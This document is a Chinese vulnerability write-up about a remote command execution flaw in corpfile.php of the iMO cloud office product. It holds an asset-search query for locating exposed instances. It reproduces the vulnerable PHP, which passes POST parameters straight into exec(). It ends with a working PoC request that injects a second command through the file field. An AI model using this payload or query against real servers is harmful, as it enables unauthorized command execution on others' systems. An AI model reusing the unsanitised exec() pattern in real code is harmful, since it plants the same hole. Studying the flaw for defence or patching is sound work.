# imo 云办公室 corpfile.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 corpfile.php 文件中参数过滤不足，导致可以随意进行命令拼接，获取服务器权限

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0.png)

漏洞文件 corpfile.php

```javascript
<?php
define('DELETE_FAILED', '数据不存在，删除失败!');
define('DELETE_SUCCESS', '数据存在，删除成功!');
switch($_POST['type'])
{
  case 'corpLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'userLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('uid' => $_POST['uid'], 'user_account' => $_POST['user_account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'corpTemp':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'chatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'multiChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'groupChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'backChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;
}
```

验证POC

```javascript
POST /corpfile.php

type=corpLogo&command=id&file=;pwd>1.txt
```

![img](../../../.vuepress/public/img/1645881191090-fcf34136-bc53-4b37-8de8-e4ca535b750a.png)